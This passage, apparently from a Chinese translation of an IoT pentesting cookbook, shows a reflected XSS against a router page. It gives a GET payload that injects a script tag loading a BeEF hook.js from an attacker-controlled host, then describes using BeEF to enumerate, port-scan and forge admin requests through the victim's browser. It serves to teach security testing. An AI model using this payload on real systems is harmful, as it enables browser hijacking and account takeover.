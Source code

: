 1.  使用这个`GET`请求，我们可以看到浏览器响应一个损坏的页面，如下图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/8f20f997-5804-4dfb-8490-e2bd459956a4.png)

1.  再次，我们正在破坏一些 JavaScript 代码，阻止浏览器执行我们在 BeEF 服务器上托管的外部 JavaScript 代码。很可能我们需要终止预期的 JavaScript 代码，并开始我们自己的`<script>`标签，以请求我们的外部 JavaScript BeEF。我们可以尝试添加一个带有打开和关闭脚本标签括号的参数，添加引号，然后尝试使用以下`GET`请求调用我们的 BeEF 钩有效负载：

```
http://192.168.1.1/start_apply.htm?next_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

1.  当我们发送`GET`请求并查看浏览器响应时，似乎输出相同的破损 JavaScript；但是，如果我们查看 ZAP，我们可以看到浏览器向我们的 BeEF 服务器发送请求：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/0e4d47ed-73f8-4246-99b6-18f7b14c7bd3.png)

1.  以下是 ZAP 历史选项卡中显示的 BeEF 钩请求：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/874c69c1-28ec-4c5c-af61-0a06d6c75255.png)

1.  从 BeEF 服务器，我们已成功用我们的有效负载钩住了我们的浏览器，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/84dc7381-1e28-4346-9c3b-8513ab31358e.png)

# 钩住受害者时 BeEF 的基本使用

以下是钩住受害者时 BeEF 的基本使用：

1.  一旦受害者被钩住，BeEF 会快速枚举运行在受害者计算机上的信息。

以下屏幕截图说明了 BeEF 捕获的内容：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/7e372f36-35c1-4f4f-a1ac-6c5f376f7f63.png)

1.  除了主机详细信息，BeEF 还使用许多利用模块在受害者身上使用，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/95723930-53b5-44b3-afb0-5afec8d5fbdb.png)

1.  网络类别中的一个模块可以扫描受害者的端口以进行后期利用：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/e7308456-d9aa-4794-a8d9-28e5bafa6e1a.png)

# 通过受害者的浏览器代理流量

BeEF 的我最喜欢的功能之一是能够使用受害者作为代理，代表用户发送伪造请求：

1.  这就像右键单击被钩住的受害者以用作代理一样简单，导航到 Rider 选项卡，并使用 Forge Request 选项，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/22b6a1a5-8afd-4e62-824b-a593a1dfbc9d.png)

1.  复制已知的`HTTP`请求，通过受害者的浏览器伪造，例如创建或更改管理员用户的密码，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/75c54380-421e-4c78-a096-3434c0eb51c6.png)
